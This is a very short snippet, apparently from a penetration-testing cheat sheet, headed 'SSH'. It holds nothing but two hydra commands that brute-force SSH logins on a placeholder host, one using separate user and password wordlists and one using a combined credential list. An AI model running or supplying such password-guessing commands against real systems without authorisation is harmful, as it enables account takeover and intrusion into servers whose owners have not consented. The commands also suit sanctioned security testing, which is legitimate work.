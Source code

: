 ## SSH

```bash
hydra -L users.txt -P pass.txt x.x.x.x ssh -V
hydra -C pass.txt x.x.x.x ssh -V
```

